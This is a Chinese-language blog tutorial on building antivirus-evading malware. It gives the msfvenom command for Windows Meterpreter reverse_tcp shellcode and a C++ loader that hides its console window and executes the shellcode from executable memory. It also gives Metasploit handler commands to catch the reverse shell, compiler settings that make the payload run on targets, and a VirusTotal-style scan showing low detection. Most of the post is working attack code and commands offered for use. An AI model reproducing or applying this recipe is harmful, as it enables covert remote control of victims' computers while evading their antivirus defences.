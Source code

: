 实验了一下这篇文章里面介绍的免杀方法：[使用 C 编译 shellcode 免杀上线](https://www.xljtj.com/archives/c-shellcode.html?from=timeline&isappinstalled=0)。这篇文章已经把步骤写的很清楚了，但是我会在本文中也记录清楚每一步，因为文章可能说没就没，记下来自己留个备份。顺便记下我遇到的几个mini tiny坑。

# 0x01 环境

- Vs 2019
- windows 10
- kali


# 0x02 msf 生成 shellcode

```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=攻击机器IP（MSF的反弹IP） LPORT=攻击机器端口（MSF的反弹端口） -f c > shellcode.c

```


![title](https://leanote.com/api/file/getImage?fileId=5e9bab12ab64410e3d0012f8)

# 0x03 用 VS 生成可执行文件

这里有两个很小的点:

因为我和作者VS版本和目标环境的区别，第一，我在VS 2019里生成`控制台应用`的时候，是默认不带头文件的。所以在生成程序中，没有`pch.h`这个头文件。解决方法很简单，直接把`#include "pch.h"`这一句代码删掉就好。

![title](https://leanote.com/api/file/getImage?fileId=5e9baea9ab6441104c0012ee)

![title](https://leanote.com/api/file/getImage?fileId=5e9baf14ab64410e3d0013cd)


第二，如绿框中的`代码生成`→`运行库`选项及编译配置：

![title](https://leanote.com/api/file/getImage?fileId=5e9bb680ab64410e3d00152f)

如果我这么选，注意这里编译配置是`Debug x86`，那我可以成功生成exe，但是在运行的时候无法成功执行，目标机器上报错如下:


![title](https://leanote.com/api/file/getImage?fileId=5e9bafdeab64410e3d0013f9)

![title](https://leanote.com/api/file/getImage?fileId=5e9bafe6ab6441104c001324)


解决办法也不难:

- 项目`属性`→`代码生成`→`运行库`选 **多线程(/MT)**
- 编译配置选 `Release x86`


![title](https://leanote.com/api/file/getImage?fileId=5e9bb02eab6441104c001332)

------------


具体操作如下:

打开 vs2019，新建项目→`控制台应用(C++)`。

然后把 shellcode 复制到下面的代码里（我删掉了不存在的头）：


```
// MSF.cpp : 此文件包含 "main" 函数。程序执行将在此处开始并结束。
#include <iostream>
#include "stdio.h"
#include "Windows.h"

#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")                        //去除窗口
//步骤b所在桌面产生的 shellcode.c的内容;
unsigned char shellcode[] =


void main()

{
    //ShellExecute(NULL, _T("open"), _T("explorer.exe"), _T("https://www.baiud.com"), NULL, SW_SHOW);
    LPVOID Memory = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(Memory, shellcode, sizeof(shellcode));
    ((void(*)())Memory)();
}

```


再把 shellcode 全选复制到编辑器的代码框里：

![title](https://leanote.com/api/file/getImage?fileId=5e9bb192ab64410e3d001446)

修改编译配置为:

![title](https://leanote.com/api/file/getImage?fileId=5e9bb1dbab6441104c001388)

修改属性：项目里右键属性 → C/C++ → 代码生成 → 运行库：


![title](https://leanote.com/api/file/getImage?fileId=5e9bb1b7ab64410e3d001450)

保存之后，`重新生成解决方案`，就会生成一个 exe，这个 exe 运行即可上线：

![title](https://leanote.com/api/file/getImage?fileId=5e9bb240ab64410e3d001466)

这里按原作者的编译和运行库配置（`Debug x86 多线程测试(/MTd)`）生成的文件大小是38.5k，按我的配置生成的文件大小是79.0k。


# 0x04 测试上线

MSF 里开启监听：

```
use exploits/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.113.131
set lport 8090
run
```

执行 exe 即刻上线:

![title](https://leanote.com/api/file/getImage?fileId=5e9bb3deab6441104c0013e7)

# 0x05 免杀性检验


查杀网查杀地址：[MSF(2).exe](https://r.virscan.org/language/zh-cn/report/aab7bc6beead5b681de1f59563456e89)

看上去还行：

![title](https://leanote.com/api/file/getImage?fileId=5e9bb498ab64410e3d0014d6)


# 0x06 CS 上线

我也懒得搞了，两个端起起来有点麻烦：

> 如果要用 CS 上线，如下生成 payload：
![title](https://leanote.com/api/file/getImage?fileId=5e9bb516ab6441104c00141f)
后面操作是一样的。



--------------

# 参考链接：

1. [使用 C 编译 shellcode 免杀上线](https://www.xljtj.com/archives/c-shellcode.html?from=timeline&isappinstalled=0)，心灵鸡汤君's blog，心灵鸡汤君，2020 年 04 月 18 日